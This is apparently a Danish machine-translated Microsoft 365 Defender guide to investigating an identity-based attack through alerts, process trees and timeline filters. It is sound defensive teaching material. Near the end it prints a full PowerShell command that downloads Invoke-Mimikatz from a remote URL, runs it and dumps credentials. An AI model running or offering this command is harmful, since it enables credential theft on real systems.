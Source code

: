 ```yaml
---
title: Eksempel på et identitetsbaseret angreb
description: Gennemgå en eksempelanalyse af et identitetsbaseret angreb.
keywords: hændelser, beskeder, undersøge, korrelation, angreb, maskiner, enheder, brugere, identiteter, identitet, postkasse, mail, 365, microsoft, m365, hændelsesrespons, cyberangreb
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 6d62e1127eabb401a6af77aa1bbf073e4cfced17
ms.sourcegitcommit: a4729532278de62f80f2160825d446f6ecd36995
ms.translationtype: MT
ms.contentlocale: da-DK
ms.lasthandoff: 03/31/2022
ms.locfileid: "64570101"
---
```

# <a name="example-of-an-identity-based-attack"></a>Eksempel på et identitetsbaseret angreb

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gælder for:**
- Microsoft 365 Defender

Microsoft Defender for Identity kan hjælpe med at registrere ondsindede forsøg på at kompromittere identiteter i organisationen. Da Defender for Identity er integreret med Microsoft 365 Defender, kan sikkerhedsanalytikere få indsigt i trusler, der kommer fra Defender for Identity, f.eks. mistænkelige forsøg på at øge tilladelser for Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse af angrebene i Microsoft Defender for Identity

Microsoft 365 Defender gør det muligt for analytikere at filtrere beskeder ved at registrere **kilden** på fanen Beskeder på siden Hændelser. I følgende eksempel filtreres registreringskilden til **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrering af registreringskilden i Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Hvis du vælger **beskeden om et mistænkeligt overførings-hash-angreb**, går det til en side Microsoft Defender for Cloud Apps der viser mere detaljerede oplysninger. Du kan altid få mere at vide om en besked eller et angreb ved at vælge Få mere at vide om denne **beskedtype** for at læse en beskrivelse af angrebene [og](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) løsningsforslag.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="En mistænkelig overadgangsadvarsel om hash-angreb" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Undersøger det samme angreb i Microsoft Defender for Endpoint

Alternativt kan en analytiker bruge Defender til Slutpunkt til at få mere at vide om aktiviteten på et slutpunkt. Vælg hændelsen fra hændelseskøen, og vælg **derefter fanen Vigtige** beskeder. Herfra kan de også identificere registreringskilden. En registreringskilde, der er mærket Slutpunktsregistrering og -svar, står for Slutpunktsregistrering og -svar, som er Defender til slutpunkt. Herfra vælger analytikeren en besked, der er registreret af Slutpunktsregistrering og -svar.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Registrering af slutpunkt og svar i Microsoft Defender for Endpoint-portalen" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

Siden med beskeder viser forskellige relevante oplysninger, som f.eks. den på påvirkede enheds navn, brugernavn, status for automatisk undersøgelse og oplysningerne om beskeden. Beskedens historie viser en visuel repræsentation af procestræet. Procestræet er en hierarkisk hierarkisk repræsentation af overordnede og underordnede processer, der er relateret til beskeden.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Et advarselsprocestræ i Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Hver proces kan udvides for at få vist flere detaljer. Detaljer, som en analytiker kan se, er de faktiske kommandoer, der blev indtastet som en del af et skadeligt script, IP-adresser til udgående forbindelse og andre nyttige oplysninger.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Oplysninger om processen i Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Ved at vælge **Se på tidslinjen** kan en analytiker analysere yderligere for at fastlægge det nøjagtige tidspunkt for kompromiset. 

Microsoft Defender for Endpoint kan registrere mange skadelige filer og scripts. På grund af mange legitime anvendelser til udgående forbindelser, PowerShell og kommandolinjeaktivitet betragtes visse aktiviteter som gode, indtil der oprettes en skadelig fil eller aktivitet. Brug af tidslinjen hjælper derfor analytikere med at sætte beskeden ind i konteksten med den omgivende aktivitet for at bestemme den oprindelige kilde eller klokkeslæt for de angreb, der ellers er skjult af almindeligt filsystem og brugeraktivitet. 

Hvis du vil bruge tidslinjen, starter en analytiker på tidspunktet for registrering af påmindelser (med rødt) og ruller bagud i tid for at afgøre, hvornår den oprindelige aktivitet, der førte til den ondsindede aktivitet, faktisk startede. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analytikerens starttid for registrering af beskeder" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Det er vigtigt at forstå og skelne almindelige aktiviteter som f.eks. Windows Update-forbindelser, Windows trafik til aktivering af software, der er tillid til, andre almindelige forbindelser til Microsoft-websteder, internetaktivitet fra tredjeparter, Microsoft Endpoint Configuration Manager-aktivitet og anden tilbedre aktivitet fra mistænkelig aktivitet. En måde at skelne på er ved at bruge tidslinjefiltre. Der er mange filtre, der kan fremhæve bestemt aktivitet, mens der filtreres fra alt, hvad analytikeren ikke vil have vist. 

På billedet nedenfor filtrerede analytikeren for kun at få vist netværks- og proceshændelser. Dette filterkriterie giver analytikeren mulighed for at se de netværksforbindelser og processer, der omgiver begivenheden, hvor Notesblok oprettede en forbindelse til en IP-adresse, hvilket vi også så i procestræet. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Hvordan Notesblok bruges til at oprette en ondsindet udgående forbindelse" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

I denne bestemte hændelse blev Notesblok brugt til at oprette en skadelig udgående forbindelse. Dog vil hackere ofte bruge iexplorer.exe til at etablere forbindelser til at downloade en ondsindet nyttedata, fordi iexplorer.exe processer betragtes som almindelig aktivitet i webbrowseren.

Et andet element, der skal søges efter på tidslinjen, er PowerShell bruger til udgående forbindelser. Analytikeren leder efter vellykkede PowerShell-forbindelser `IEX (New-Object Net.Webclient)` med kommandoer som f.eks. efterfulgt af en udgående forbindelse til et websted, der er vært for en skadelig fil. 

I følgende eksempel blev PowerShell brugt til at downloade og udføre Mimikatz fra et websted:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
En analytiker kan hurtigt søge efter nøgleord ved at skrive nøgleordet i søgefeltet for kun at få vist begivenheder, der er oprettet med PowerShell. 

## <a name="next-step"></a>Næste trin

Se stien [til phishingundersøgelse](first-incident-path-phishing.md) .

## <a name="see-also"></a>Se også

- [Oversigt over hændelser](incidents-overview.md)
- [Administrer hændelser](manage-incidents.md)
- [Undersøg hændelser](investigate-incidents.md)

